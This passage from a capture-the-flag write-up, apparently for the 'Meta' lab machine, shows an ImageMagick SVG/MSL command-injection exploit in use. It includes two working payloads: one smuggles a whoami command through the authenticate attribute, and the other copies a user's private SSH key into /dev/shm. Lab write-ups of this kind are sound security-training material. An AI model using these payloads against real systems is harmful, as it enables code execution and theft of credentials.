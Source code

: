 I use their **poc.svg example** near the bottom and modify it slightly so that the output is placed in **/dev/shm** and then copy it over to the **/var/www/dev01.artcorp.htb/convert_images/** directory. When the **convert_images.sh** script next runs it should trigger the exploit.

```
<image authenticate='ff" `echo $(whoami)> /dev/shm/whoami`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:test.svg" height="100" width="100"/>
  </svg>
</image>
```

`cp test.svg /var/www/dev01.artcorp.htb/convert_images/`

Looking in the **/dev/shm** directory shows that it worked, and that it runs under user **thomas**:

```
www-data@meta:/dev/shm$ ls -al
total 4
drwxrwxrwt  2 root   root     60 Apr 17 22:13 .
drwxr-xr-x 16 root   root   3080 Apr 17 22:07 ..
-rw-r--r--  1 thomas thomas    7 Apr 17 22:14 whoami
www-data@meta:/dev/shm$ cat whoami
thomas
```

Looking in the **thomas** home directory shows us that the **user.txt** flag is there but even more interesting there is a **.ssh folder**. If he has a private ssh key we should be able to do what we just did above to view it:

```
total 32
drwxr-xr-x 4 thomas thomas 4096 Jan 17 07:53 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
-rw-r----- 1 root   thomas   33 Apr 17 22:08 user.txt
```

I create another .svg exploit file based on the one above and change it to see if I can get their private key, and then copy it over to the convert_images folder:

```
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:test2.svg" height="100" width="100"/>
  </svg>
</image>
```
